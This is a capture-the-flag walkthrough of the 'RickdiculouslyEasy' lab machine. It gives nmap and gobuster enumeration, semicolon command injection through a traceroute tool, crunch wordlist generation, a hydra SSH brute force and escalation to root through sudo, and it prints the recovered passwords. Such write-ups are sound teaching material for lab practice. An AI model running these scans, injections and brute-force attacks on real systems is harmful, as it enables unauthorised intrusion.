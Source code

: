 # RICKDICULOUSLYEASY: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -n -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![91b5333d5330b9727425b49e863e2c36.png](./_resources/9cfb3f72568545c0b69eb14de99480e5.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.5 -oN full_service_enum-sC.txt`
![9aebc3d504f0a9808014d52a2cd2ecb7.png](./_resources/c36c3e0eb80f445986c9dd8e93dd8acb.png)
![d222bd9cf14f34fd70467fc038ce5e1f.png](./_resources/8ab6265ab1cb4d0782edbebf9b6d37d6.png)

`nmap -sV -sU -F  -oN udp-sC-sV.txt`

## 1.3 Web
### 1.3.1 Gobuster enum dir
`gobuster dir -u http://192.168.196.5 -w /usr/share/wordlists/dirb/big.txt -t 50 -f -o info-slash.txt`
![cdb28ad65122f6fa488892beff763e95.png](./_resources/eae415a1f1ab4ad4879b78206abd66be.png)

`gobuster dir -u http://192.168.196.5 -w /usr/share/wordlists/dirb/big.txt -t 50 -o info.tx`
![21dba988fb0b57b51f2d2742eb4e4fc1.png](./_resources/a9541b2898a7402fa3883bcc3e8e0d58.png)

### 1.3.2 Robots.txt
![4e2788048ac30ba0d346f47fe63534af.png](./_resources/744785b85b1f4c01931ef8c6da3497b0.png)

### 1.3.3 Passwords.html
![82bbc62feaad0896d14fae32f708b956.png](./_resources/50bb506641f14f4aa7dc5d8fe01fe94b.png)
![466870d6b8a8af3a8e867a8376141aab.png](./_resources/59fad14f66774cb0957986ddd0fc341c.png)
One password: winter

### 1.3.4 Tracertool
![83a413f0fb27b7dd0d621058a453a53c.png](./_resources/8402a57c562d4cd795ffe23702a1a49f.png)
![12ed8ccfae4bdba7b55dca826c4fc9be.png](./_resources/7d0cc4d178454781bd16c277038a0b01.png)

Is possible concatenate other commands with semicolon. But `cat` is blocked.
However `head` and `tail` are usable.
![a14f89664b17afeb6d17845e40a9f44b.png](./_resources/f944b08e90ad4ff69e442ca0af3cf73d.png)
Now users have been enumerated.


# 2 Exploitation
## 2.1 SSH as Summer
And with the previously enumerated Summer user combined with the password `winter`, we can login.
![559eddb5d97a6327ac0cc27bf1a82bcd.png](./_resources/3d79a7c04fe441ce964523a896fac710.png)


# 3 Post-exploitation
![bcc4a8276553a834e58a07ffc7466058.png](./_resources/dc40b5f6108d47ea8b06eb77bcceac4b.png)

The zip file needs password to be extracted:

![a330460022cafbe50f39d21435fca515.png](./_resources/adf86691bb9641e39b59602da06b3582.png)

And in the file `Safe_Password.jpg`, using `strings` command to get all possible strings, there is a possible password:
![18c872938af4eda9d30f243e15266c94.png](./_resources/865f05d28d164201af8189b62ee19439.png)

Here's another password (131333):
![55a5f148ea1f459d22c39e191835f92d.png](./_resources/69d3e93d5a5b4db68969a8a366d2d50c.png)

We can use in the safe file binary:
![59a50e28b66bfed5b58df5c1082b324b.png](./_resources/9f8e0aae5d24498aa47031247ebc62e4.png)

https://rickandmorty.fandom.com/wiki/Rick_Sanchez

![f72f3ac2449d8c2c1122402aad3badd0.png](./_resources/073d8a2fbff34b5e862f83123abcf552.png)

## 3.1 Crunch to generate wordlist
Following this tips:
- 1 upper
- 1 digit
- one of the following words (the flesh curtains)

`crunch 5 5 -t ,%The >> wordlist.txt`

`crunch 7 7 -t ,%Flesh >> wordlist.txt`

`crunch 10 10 -t ,%Curtains >> wordlist.txt`

## 3.2 Brute-force ssh with Hydra
`hydra -l RickSanchez -P wordlist.txt 192.168.196.4 ssh -s 22222 -I`
![301dd38c5cc8952fb42d4f099d21969c.png](./_resources/37b422f7806248fc8f808bbceec68cc9.png)
RickSanchez:P7Curtains

## 3.3 Su command as RickSanchez
![ff671c7ce43585582bb5a00f6850b004.png](./_resources/1fef25ab4762460facd7c8d46046621e.png)


## 3.4 Root usind sudo permission
![f69ca5f924622544018b96db8198221a.png](./_resources/0502953e0fe74c238b9da3a1a1a12b7c.png)
